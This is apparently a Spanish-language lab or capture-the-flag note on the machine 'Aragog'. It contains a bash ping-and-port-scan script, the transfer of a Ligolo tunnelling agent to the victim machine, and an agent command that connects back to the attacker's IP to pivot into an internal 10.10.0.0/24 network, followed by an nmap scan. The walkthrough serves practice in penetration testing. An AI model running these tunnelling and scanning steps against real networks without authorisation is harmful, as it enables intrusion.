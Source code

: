 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `Ligolo` para hacer la tunelización el agent tiene que ir en la maquina victima y el proxy en la maquina atacante 

El agent lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Deberemos ejecutar el proxy en nuestra maquina atacante con:
`./proxy -selfcert `

Y en la maquina victima el agent con:
`./agent -connect 192.168.1.19:11601 -ignore-cert`

Levantamos la interfaz de ligolo
`sudo ip link set ligolo up`

En ligolo seleccionamos la sesión con `session` y le damos al Intro
Ejecutamos el comando `start` para que se inicie el tunelizado hacia la maquina victima [[10.10.0.4 (Aragog)]]

Tendremos que añadir la ruta a nustra maquina atacante para poder tener conexion con ella:
`sudo ip route add 10.10.0.0/24 dev ligolo`

Una vez hallamos conseguido el tunelizado haremos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```






